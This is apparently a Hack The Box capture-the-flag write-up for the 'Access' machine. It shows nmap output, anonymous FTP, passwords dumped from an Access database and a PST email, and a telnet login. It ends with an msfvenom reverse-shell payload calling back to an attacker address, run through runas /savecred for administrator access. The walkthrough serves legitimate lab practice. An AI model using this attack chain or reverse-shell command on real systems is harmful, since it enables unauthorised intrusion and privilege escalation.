




HTB: Access
PORT STATE SERVICE VERSION
21/tcp open ftp Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
| ftp-syst:
|_ SYST: Windows_NT
23/tcp open telnet?
80/tcp open http Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
| http-methods:
| Supported Methods: OPTIONS TRACE GET HEAD POST
|_ Potentially risky methods: TRACE
|_http-title: MegaCorp
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Nov 8 20:57:50 2023 -- 1 IP address (1 host up) scanned in 270.46 seconds
Website has nothing interesting at all just a picture.

Gobuster shows no interesting directories
FTP is open and we have 2 files a password protected zip file and a backups.mdb file
We downloaded mdb-tools so we can access the microsoft access db file
This command lists all tables in this database
mdb-tables backup.mdb

I guessed auth_user would be important and it is. We get a few usernames and passwords.
└─# mdb-export backup.mdb auth_user
id,username,password,Status,last_login,RoleID,Remark
25,"admin","admin",1,"08/23/18 21:11:47",26,
27,"engineer","access4u@security",1,"08/23/18 21:13:36",26,
28,"backup_admin","admin",1,"08/23/18 21:14:02",26,
Using our windows machine and the password access4u@security we can unzip the zipped folder and get a pst file.
We then install more tools to read the pst file
apt install pst-utils
readpst <pst file>
From: john@megacorp.com <john@megacorp.com>
Subject: MegaCorp Access Control System "security" account
To: 'security@accesscontrolsystems.com'
Date: Thu, 23 Aug 2018 23:44:07 +0000
MIME-Version: 1.0
Content-Type: multipart/mixed;
boundary="--boundary-LibPST-iamunique-1130069095_-_-"
----boundary-LibPST-iamunique-1130069095_-_-
Content-Type: multipart/alternative;
boundary="alt---boundary-LibPST-iamunique-1130069095_-_-"
--alt---boundary-LibPST-iamunique-1130069095_-_-
Content-Type: text/plain; charset="utf-8"
Hi there,
The password for the “security” account has been changed to 4Cc3ssC0ntr0ller. Please ensure this is passed on to your engineers.
Regards,
John
We can login with telnet
security:4Cc3ssC0ntr0ller
Almost all programs are being blocked. Probably by windows defender.
with wesng.py we find 2 possible priv esc exploits
Date: 20120612
CVE: CVE-2012-0217
KB: KB2709715
Title: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege
Affected product: Windows Server 2008 R2 for x64-based Systems
Affected component:
Severity: Important
Impact: Elevation of Privilege
Exploits: https://www.exploit-db.com/exploits/28718/, https://www.exploit-db.com/exploits/46508/
Date: 20130108
CVE: CVE-2013-0008
KB: KB2778930
Title: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege
Affected product: Windows Server 2008 R2 for x64-based Systems
Affected component:
Severity: Important
Impact: Elevation of Privilege
Exploit: http://www.exploit-db.com/exploits/24485
using this command we can see saved creds
cmdkey /list

In this case we have the Admin users creds saved and we can use them with runas
we create a reverse shell with msfvenom and move it to the windows machine
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.3 LPORT=9999 -f exe >shell1.exe
runas /savecred /user:ACCESS\Administrator "shell1.exe"
We get a callback and we have owned the machine
